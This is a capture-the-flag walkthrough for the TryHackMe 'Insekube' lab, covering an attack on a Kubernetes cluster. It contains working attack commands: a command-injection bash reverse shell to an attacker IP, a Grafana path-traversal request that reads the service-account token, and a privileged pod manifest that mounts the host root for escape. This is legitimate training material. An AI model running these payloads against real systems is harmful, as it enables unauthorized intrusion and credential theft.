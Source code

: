 # <a href="https://tryhackme.com/room/insekube"> Insekube </a>
### Exploiting Kubernetes by leveraging a Grafana LFI vulnerability

### Task 1

```
nmap -p- -Pn -sC -sT -A --reason -o nmap.scan [Target IP]
```
This will give us answer rot the first question.


### Task 2

On website we can perform a command injection attack by typing various command like ;whoami ;id ;ls
Author tells us that flag is in Envrometal variable so lets  type ;printenv
![image](https://user-images.githubusercontent.com/58551072/155545434-44c7d8b8-2811-4078-916e-8660a5ce6b6e.png)

We have to establish reverse shell with target machine in order to complete further task
There is no netcat or python avaliable on machine for us to use. 
We have to use Command injection attack again
```
127.0.0.1 && bash &>/dev/tcp/[Attacker IP]/[PORT] <&1
```

### Task 3

No answer needed

### Task 4

We have access to the machine. All we need to do is follow instructions. 
Flag is there, you can analyse it with online tools

### Task 5

Running env you will see there is a Grafana service running in the cluster.
We need to find what version of Grafana is used and search for vulnerabilities
Still in console that is connected to the target machine
```curl http://grafana:3000/login/```
Text is long but answer is easy to find ;)
 

### Task 6

I had trouble with running exploit but when googling around I have found solution
```
curl --path-as-is http://grafana:3000/public/plugins/alertlist/../../../../../../../../var/run/secrets/kubernetes.io/serviceaccount/token
```
Now we have token
To get service account name we can use option "get serviceaccount" and token that we have found
To get next two answers all we need to do is fllow instruction. Flag 3 is in same place as flag 1

### Task 7

First we need to prepare .yaml file
```
apiVersion: v1
kind: Pod
metadata:
  name: everything-allowed-exec-pod
  labels:
    app: pentest
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: everything-allowed-pod
    image: ubuntu
    imagePullPolicy: IfNotPresent
    securityContext:
      privileged: true
    volumeMounts:
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
  #nodeName: k8s-control-plane-node # Force your pod to run on the control-plane node by uncommenting this line and changing to a control-plane node name
  volumes:
  - name: noderoot
    hostPath:
      path: /
```


 
To get file into TARGET machine lets start ftp server on our machine
then simply curl http://ATTACKER IP:PORT/file.yaml
to get last flag use 

```find / -type f -name root.txt```
   
   
   

